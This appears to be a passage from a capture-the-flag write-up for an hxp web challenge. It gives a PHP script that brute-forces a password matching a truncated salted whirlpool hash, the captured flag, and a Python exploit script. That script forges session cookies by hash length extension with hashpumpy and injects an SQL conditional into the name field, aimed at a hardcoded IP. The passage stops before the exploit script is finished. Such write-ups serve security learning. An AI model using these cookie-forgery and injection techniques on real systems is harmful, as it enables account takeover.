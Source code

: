 ```php
<?php
substr(hash('whirlpool', $innersalt . $password), 0, 6) == '138300';
```

This is trivial to do, even on a slow machine. I used the following PHP script:

```php
<?php

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) $randomString .= $characters[rand(0, $charactersLength - 1)];
    return $randomString;
}
$secret = '9KmX4h41bsdOtaew';
while(true) {
    $s = generateRandomString();
    if(substr(hash('whirlpool', $secret.$s), 0, 6) == '138300') echo $s;
}
```

This didn't take much time to run, and gave me quite a few values that I could
use. Any of these values works as the password for the `admin` user in the
application. We just need to login, and then the flag is set as a cookie:

```
hxp{if_y0u_d0_it_thr33_t1mes_itz_secure_again}
```

## Exploit script (to leak salt and pre-hash)

```py
import codecs
import hashpumpy
import random
import requests
import urllib.parse

OUR_USER = "nimda"
OUR_PASS = "admin"

s = requests.Session()
s.post("http://130.211.200.153/?do=login", dict(name=OUR_USER, password=OUR_PASS))

hash = s.cookies["h"]
data = urllib.parse.unquote(s.cookies["u"])

def check_test_data(what):
    newname = "if({test}, 'admin', 'nope')".format(test=what)
    ret = "&name={} -- ".format(newname)
    print(ret)
    return ret

def run_exploit(adata):
    new_hash, new_data = hashpumpy.hashpump(hash, data, adata, 33)
    new_data = urllib.parse.quote(new_data)
    s.cookies.clear()
    s.cookies.set("h", new_hash)
    s.cookies.set("u", new_data)

    res = s.get("http://130.211.200.153/?do=flag").text

    return "._." not in res

```